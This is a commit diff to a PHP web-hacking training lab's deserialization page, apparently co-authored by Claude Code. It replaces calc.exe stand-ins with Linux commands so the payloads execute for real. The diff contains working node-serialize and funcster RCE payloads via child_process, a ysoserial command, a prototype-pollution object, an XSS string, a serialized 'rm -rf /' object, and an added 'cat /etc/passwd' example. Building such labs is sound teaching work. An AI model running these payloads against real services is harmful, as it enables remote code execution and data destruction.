

Before and after one commit to Mkway/S_WEB_Project, a PHP site: page /admin/webhacking/advanced_deserialization.php in a window 1280 px wide. Shown: the part 1699-2660 px from the top of the page at 99% size. Run offline with PHP 8.4, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1).

Commit message:
feat: calc.exe를 실제 확인 가능한 Linux 명령어들로 개선
- calc.exe → whoami, pwd, ls -la 등 실용적인 명령어로 변경
- execSync() 사용으로 실제 실행 결과 반환 가능
- 유용한 명령어 예시 섹션 추가 (whoami, pwd, ls -la, cat /etc/passwd, ps aux)
- Linux 컨테이너 환경에서 실제 동작하는 명령어들로 교육적 가치 향상

🤖 Generated with [Claude Code](https://claude.ai/code)

Co-Authored-By: Claude <noreply@anthropic.com>

```diff
--- a/websec-lab/src/webhacking/advanced_deserialization.php
+++ b/websec-lab/src/webhacking/advanced_deserialization.php
@@ -321,7 +321,7 @@ class AdvancedDeserializationTest {
                     case 'type_confusion':
                         $result .= "ysoserial.exe -g TypeConfuseDelegate \\\n";
                         $result .= "  -f BinaryFormatter \\\n";
-                        $result .= "  -c \"calc.exe\" \\\n";
+                        $result .= "  -c \"whoami\" \\\n";
                         $result .= "  -o base64";
                         break;
                     case 'xml_serializer':
@@ -459,7 +459,7 @@ class AdvancedDeserializationTest {
                         $result .= "  'rce': {\n";
                         $result .= "    '__proto__': {\n";
                         $result .= "      'type': 'constructor',\n";
-                        $result .= "      'func': 'function(){ require(\"child_process\").exec(\"calc.exe\"); }()'\n";
+                        $result .= "      'func': 'function(){ return require(\"child_process\").execSync(\"whoami\").toString(); }()'\n";
                         $result .= "    }\n";
                         $result .= "  }\n";
                         $result .= "};\n\n";
@@ -600,7 +600,7 @@ class AdvancedDeserializationTest {
             switch ($payload_type) {
                 case 'node_serialize':
                     $endpoint = 'node_serialize';
-                    $payload = $custom_payload ?: '{"username":"admin","rce":"_$$ND_FUNC$$_function(){require(\'child_process\').exec(\'calc.exe\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
+                    $payload = $custom_payload ?: '{"username":"admin","rce":"_$$ND_FUNC$$_function(){require(\'child_process\').exec(\'whoami\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
                     $post_data = [
                         'payload' => $payload
                     ];
@@ -619,7 +619,7 @@ class AdvancedDeserializationTest {
 
                 case 'funcster':
                     $endpoint = 'funcster';
-                    $function_code = $custom_payload ?: 'function() { return require("child_process").execSync("whoami").toString(); }';
+                    $function_code = $custom_payload ?: 'function() { return require("child_process").execSync("pwd && whoami && ls -la").toString(); }';
                     $post_data = [
                         'functionCode' => $function_code
                     ];
@@ -1298,16 +1298,23 @@ O:11:"SystemShell":2:{s:3:"cmd";s:8:"rm -rf /";s:6:"target";s:4:"root";}
                     <div id="nodejs-payload-examples">
                         <div class="payload-examples">
 node-serialize RCE:
-{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('calc.exe');}()"}
+{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('whoami');}()"}
 
 serialize-javascript XSS:
 {"name":"&lt;/script&gt;&lt;script&gt;alert('XSS')&lt;/script&gt;","data":"malicious"}
 
 funcster RCE:
-function() { require("child_process").exec("whoami"); }
+function() { return require("child_process").execSync("whoami").toString(); }
 
 cryo Prototype Pollution:
 {"__proto__":{"polluted":"yes","isAdmin":true},"normalData":"hello"}
+
+🔍 유용한 명령어 예시:
+- whoami (현재 사용자)
+- pwd (현재 디렉토리)
+- ls -la (파일 목록)
+- cat /etc/passwd (시스템 정보)
+- ps aux (실행 프로세스)
                         </div>
                     </div>
                 </div>
@@ -1332,7 +1339,7 @@ cryo Prototype Pollution:
 
                     <div class="form-group">
                         <label for="command">실행할 명령어:</label>
-                        <input type="text" name="command" id="command" value="whoami" placeholder="예: whoami, ls -la, calc.exe">
+                        <input type="text" name="command" id="command" value="whoami" placeholder="예: whoami, ls -la, whoami">
                     </div>
 
                     <div class="form-group">
@@ -1397,9 +1404,9 @@ cryo Prototype Pollution:
             const select = document.getElementById('nodejs_type');
             const textarea = document.getElementById('nodejs_payload');
             const examples = {
-                'node_serialize': '{"rce":"_$$ND_FUNC$$_function(){require(\'child_process\').exec(\'calc.exe\');}()"}',
+                'node_serialize': '{"rce":"_$$ND_FUNC$$_function(){require(\'child_process\').exec(\'whoami\');}()"}',
                 'serialize_javascript': '{"name":"[XSS Script Tag]","data":"malicious content"}',
-                'funcster': 'function() { require("child_process").exec("whoami"); }',
+                'funcster': 'function() { return require("child_process").execSync("whoami").toString(); }',
                 'cryo': '{"__proto__":{"polluted":"yes","isAdmin":true,"compromised":"WebSec-Lab"},"normalData":"hello"}'
             };
 
```
